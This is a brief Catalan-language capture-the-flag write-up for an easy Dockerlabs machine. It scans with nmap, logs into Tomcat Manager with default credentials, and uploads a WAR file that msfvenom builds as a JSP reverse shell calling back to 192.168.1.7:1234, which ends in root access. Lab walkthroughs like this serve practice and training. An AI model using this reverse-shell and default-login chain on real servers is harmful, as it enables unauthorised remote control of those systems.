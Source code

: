 # PN

Plataforma: Dockerlabs
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 5 de diciembre de 2024 17:37

### Reconeixement

```bash
sudo nmap -p- -sS -sCV --min-rate 5000 -vvv  -n -Pn 172.17.0.2 -oG allports
```

No troba res
Provem a treure el parametre -Pn

![image.png](<imagenes/image 76.png>)

Ens conectem a la web i trobem un tomcat

![image.png](<imagenes/image 77.png>)

Provem a accedir al panell manager.
Demana login
Provem amb credencials per defecte:

![image.png](<imagenes/image 78.png>)

Accedirm amb tomact:s3cr3t

Un cop a dins , mirem de pujar un fitxer .war

Creem el payload amb :

msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.1.7 lport=1234 -f war > shell.war

Pujem el fitxer :

.

![image.png](<imagenes/image 79.png>)

Explotem la shell

![image.png](<imagenes/image 80.png>)

Entrem com a root